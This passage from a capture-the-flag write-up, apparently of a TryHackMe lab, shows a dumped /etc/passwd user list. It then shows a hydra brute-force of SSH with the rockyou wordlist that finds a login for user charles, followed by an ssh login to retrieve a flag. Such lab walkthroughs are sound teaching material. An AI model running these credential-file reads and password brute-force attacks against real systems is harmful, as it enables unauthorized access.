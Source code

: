 ```console
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:114:121::/var/spool/postfix:/usr/sbin/nologin
dovecot:x:115:123:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:116:124:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```

Reading the `/etc/passwd` file shows us a number of users such as `joshua` and `charles` 

Using these usernames we can try to brute force the ssh port on port `22` , to do this we can use `hydra` 

```console
┌──(kali㉿kali)-[~/Include]
└─$ hydra -l charles -P /usr/share/wordlists/rockyou.txt ssh://10.10.218.26
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-11 16:17:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.218.26:22/
[22][ssh] host: 10.10.218.26   login: charles   password: ********
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-11 16:17:11
```

Now that we have a password we can get a shell via ssh

```console
┌──(kali㉿kali)-[~/Include]
└─$ ssh charles@10.10.218.26
```

And finally we can get last flag in `/var/www/html`

![Flag](/assets/img/CTFs/Include/flag2.jpg)
